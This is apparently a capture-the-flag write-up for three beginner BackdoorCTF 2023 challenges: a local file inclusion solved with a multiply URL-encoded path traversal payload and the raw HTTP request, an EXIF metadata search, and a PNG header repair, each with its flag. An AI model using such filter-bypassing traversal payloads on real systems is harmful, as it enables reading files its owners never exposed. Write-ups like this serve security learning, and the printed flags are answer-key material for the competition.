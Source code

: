 # BackdoorCTF 2023 writeups
ctftime link: https://ctftime.org/event/2153
## Beginner/secret_of_j4ck4l

![image](https://github.com/zer00d4y/writeups/assets/128820441/69b19377-2173-46ff-b3e0-05ad52c33cc3)

Simple LFI, but you need to consider filters, which remove ' . '  and ' / '

We need to use this payload: %25252e%25252e%25252fflag%25252etxt

http://34.132.132.69:8003/read_secret_message?file=%25252e%25252e%25252fflag%25252etxt

    GET /read_secret_message?file=%25252E%25252E%25252Fflag%25252Etxt HTTP/1.1
    Host: 34.132.132.69:8003
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US,en;q=0.9
    Connection: close


![image](https://github.com/zer00d4y/writeups/assets/128820441/21e53ec7-28c2-400c-85ca-da7d9be2fd0d)

FLAG: `flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}`

## Beginner/Beginner-menace

We have this image

![friend](https://github.com/zer00d4y/writeups/assets/128820441/4a154e7c-0c5b-41ff-bdfb-58e6d88635d8)

It's very easy and simple, just check meta data with exiftool or other exif tools

`exiftool friend.jpeg`

    ┌──(kali㉿kali)-[~/Downloads]
    └─$ exiftool friend.jpeg 
    ExifTool Version Number         : 12.67
    File Name                       : friend.jpeg
    Directory                       : .
    File Size                       : 6.5 kB
    File Modification Date/Time     : 2023:12:15 09:26:43-05:00
    File Access Date/Time           : 2023:12:20 05:09:27-05:00
    File Inode Change Date/Time     : 2023:12:20 05:09:27-05:00
    File Permissions                : -rw-r--r--
    File Type                       : JPEG
    File Type Extension             : jpg
    MIME Type                       : image/jpeg
    JFIF Version                    : 1.01
    Exif Byte Order                 : Big-endian (Motorola, MM)
    X Resolution                    : 1
    Y Resolution                    : 1
    Resolution Unit                 : None
    Artist                          : flag{7h3_r34l_ctf_15_7h3_fr13nd5_w3_m4k3_al0ng}
    Y Cb Cr Positioning             : Centered
    Image Width                     : 266
    Image Height                    : 190
    Encoding Process                : Baseline DCT, Huffman coding
    Bits Per Sample                 : 8
    Color Components                : 3
    Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
    Image Size                      : 266x190
    Megapixels                      : 0.051


FLAG: `flag{7h3_r34l_ctf_15_7h3_fr13nd5_w3_m4k3_al0ng}`

## Beginner/Headache

Change the bytes at the beginning so the file opens as a png.

like this 

    89 50 4E 47 0D 0A 1A 0A
    
![image](https://github.com/zer00d4y/writeups/assets/128820441/8870f78f-a347-4ff5-991e-4bdd674b897d)

FLAG: `flag{sp3ll_15_89_50_4E_47}`
